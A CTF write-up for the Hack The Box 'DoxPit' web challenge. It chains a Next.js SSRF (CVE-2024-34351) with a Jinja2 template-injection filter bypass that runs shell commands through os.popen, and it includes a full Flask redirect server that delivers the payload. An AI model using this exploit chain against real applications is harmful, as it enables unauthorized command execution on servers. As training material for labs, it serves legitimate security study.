```yaml
---
title: Hackthebox Challenge - DoxPit
date: 2024-09-01
categories: [Writeups, Hackthebox Challenge]
tags: [CTF, Web, medium]
---
```


# DoxPit - MEDIUM

## Description

<Sup>Author: @leanthedev</sup><br>
Lorem

## TL;DR

1. Exploit NextJS SSRF CVE-2024-34351
2. Jinja2 SSTI filter bypass using this payload below

filter

```python
invalid_chars = ["{{", "}}", ".", "_", "[", "]","\\", "x"]
```

bypass payload [ref](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass)

```python
{%with a=request|attr("application")|attr(request|attr("args")|attr("get")("globals"))|attr(request|attr("args")|attr("get")("getitem"))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem"))(request|attr("args")|attr("get")("import"))("os")|attr("popen")("ls${IFS}-l")|attr("read")()%}{%print(a)%}{%endwith%}
```

### Describe

I change `\x5f\x5fglobals\x5f\x5f` to `request|attr("args")|attr("get")("globals")` and adding parameter `globals=__globals__` to bypass the filter.

### Full Payload

```python
from flask import Flask, Response, request, redirect, make_response
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        print(request.headers)
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    response = make_response(redirect('http://0.0.0.0:3000/home?token=TOKEN&directory={%with a=request|attr("application")|attr(request|attr("args")|attr("get")("globals"))|attr(request|attr("args")|attr("get")("getitem"))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem"))(request|attr("args")|attr("get")("import"))("os")|attr("popen")("cat${IFS}/flag*")|attr("read")()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__'))
    return response


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=3000, threaded=True, debug=False)
```
